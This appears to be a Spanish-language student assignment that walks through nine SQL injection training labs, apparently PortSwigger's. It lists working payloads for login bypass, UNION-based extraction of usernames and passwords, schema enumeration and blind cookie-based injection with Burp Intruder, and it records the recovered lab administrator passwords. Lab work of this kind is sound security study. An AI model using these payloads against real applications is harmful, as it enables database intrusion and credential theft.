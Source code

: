 #  Tarea #985 Realizar los ejercicios de SQL Injection

## 1. LAB 1 SQLi
    * category '+OR+1=1--

---
## 2. LAB 2 SQLi
    * username 
        * administrator'--

---
## 3. [LAB 3 SQLi Determining the number of columns return by a query](https://www.youtube.com/watch?v=GP6CK03nDvw)
    * '+UNION+SELECT+NULL,NULL--
        * Firefox =! Foxyproxy 

---
## 4. [LAB 4 SQLi UNION attack finding a column containing text](https://www.youtube.com/watch?v=SGBTC5D7DTs&t=651s) 
    * '+UNION+SELECT+'abcdef',NULL,NULL--
        * category=Corporate+gifts ' UNION SELECT NULL, '7GBykY', NULL--

---
## 5. [LAB 5 SQLi UNION attack retrieving data from other tables](https://www.youtube.com/watch?v=6Dsj5SqR944)
    * category=Corporate+gifts '
        * category=Corporate+gifts ' order by 3--
            * category=Corporate+gifts ' UNION select 'a', NULL--
            * category=Corporate+gifts ' UNION select 'a', 'a'--
    * '+UNION+SELECT+username,+password+FROM+users--
        * administrator > b40kore6a4it6t57qcld     

---
       
## 6. [LAB 6 SQLi UNION attack retrieving multiple values in a single column](https://www.youtube.com/watch?v=yRVYoqR9vrI)
* [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
    * category=Gifts ' order by 1--
    * category=Gifts ' order by 2--
    * category=Gifts ' order by 3--
        * category=Gifts' UNION SELECT 'a', NULL-- 
        * category=Gifts ' UNION SELECT%20 NULL, 'a'--
            * category=Gifts ' UNION select NULL, username from users--
            * category=Gifts ' UNION select NULL, password from users--      
            * '+UNION+SELECT+NULL,username||'~'||password+FROM+users--
                * administrator~mxe67qn75iadph7i4rl

## 7. [LAB 7 SQLi attack, querying the database type and version on MySQL and Microsoft](https://www.youtube.com/watch?v=7afmKPDaZtw&t=1s)
* En burp suit community enciende el "proxy" pones el link el laboratorio en el que trabajas "burp suite chromium" de ahi lo mandas al "repeater" y pones en lo siguiente 
    * '+UNION+SELECT+'abc','def'#
    * '+UNION+SELECT+@@version,+NULL#                            
![alt text](image-2.png)
![alt text](image-1.png)
![alt text](image.png)

* haz lo que se muestra en las imagenes y listo

## 8. [LAB 8 SQLi ](https://www.youtube.com/watch?v=JduM_dO8glw)
* '+UNION+SELECT+'abc','def'--
* '+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
    * users_kxxzwr
![alt text](image-4.png)

* '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
    * '+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_kxxzwr'--
![alt text](image-6.png)    
![alt text](image-5.png)

* username_adjuvf
* password_xmshnc
* users_kxxzwr

* '+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
    *  '+UNION+SELECT+username_adjuvf,+password_xmshnc+FROM+users_kxxzwr--

![alt text](image-7.png)    

* administrator
* wobskest29imovks75ay
---

## 9.[LAB 9 SQLi Blind SQL injection with conditional responses](https://www.youtube.com/watch?v=W3zvXK9i75A) 

* ### "Proxy" y luego "Repeater" 
* TrackingId=xyz' AND '1'='1
![alt text](image-15.png)


*  TrackingId=xyz' AND '1'='2
![alt text](image-16.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a

![alt text](image-17.png)

*  TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a
![alt text](image-18.png)

* TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
![alt text](image-19.png)

* ### Intruder
* TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§

![alt text](image-20.png)

*  Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down. 

![alt text](image-21.png)

*  Settings tab, and the "Grep - Match"  add the value "Welcome back". 

![alt text](image-22.png)

* Cookie: TrackingId=A5wnpbmECJ7WwVJF' and (select username from users where username='administrator' and LENGTH(password)>20)='administrator'--'

* Cookie: TrackingId=ZyhiJiwjIThE9gYZ' and (select substring(password,§1§,1) from users where username='administrator')='§a§'--'; session=iU12vYKWPt8Nx0OyETqDVZwcKpXnOdXt


* Attack Type: [Cluster Bomb](https://www.youtube.com/watch?v=LBG_n9fr8sM&t=1546s)
* [FoxyProxy Configuracion](https://albertoestrada.es/hacking/foxyproxy/)

![alt text](image-25.png)

* Payloads 1
![alt text](image-23.png)

* Payloads 2
![alt text](image-24.png)


* Armando la contraseña manualmente 

![alt text](image-26.png)

| POS 1  | POS 2  | POS 3  | POS 4  | POS 5  | POS 6  | POS 7  | POS 8  | POS 9  | POS 10 | POS 11 | POS 12 | POS 13 | POS 14 | POS 15 | POS 16 | POS 17 | POS 18 | POS 19 | POS 20 |
| ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ | ------ |
| p | 7| e|  l| b| f | h | t | t | 2| 0| 6| 1| 6| 6| h| u| n| j| w|

p7elbfhtt206166hunjw

![alt text](image-28.png)


